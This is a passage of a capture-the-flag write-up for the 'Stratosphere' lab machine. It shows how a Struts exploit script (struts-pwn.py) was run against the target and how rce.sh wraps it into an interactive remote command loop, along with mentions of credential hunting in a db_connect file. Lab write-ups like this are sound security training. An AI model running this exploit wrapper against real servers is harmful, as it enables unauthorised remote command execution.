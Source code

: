 <br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

As I can't get a **Reverse Shell**, I keep using the exploit to enumerate more the system, but to avoid running it again and again, we created with the **[Hack4u](https://hack4u.io/){:target="_blank"}** community, a simple script to automate the **RCE**. I find a very interesting `db_connect` file, and when I open it I find some credentials, I try to connect by **SSH** with some users that I find in the `passwd` file that have a `bash` as terminal, but I cannot.

```bash
python struts-pwn.py -u 10.10.10.64/Monitoring/example/Welcome.action -c 'ls -l' | grep Prematurely -A 100 | grep -vE 'Note|Done'
nvim rce.sh
chmod +x rce.sh
./rce.sh
```

> **rce.sh**

```bash
#!/bin/bash

while [ "$command" != "exit" ]; do
  echo -n "$~ " && read command
  python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Login_input.action -c """$command""" | grep "Prematurely" -A 100 | grep -v -E "Note:|Done"
done
```

<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
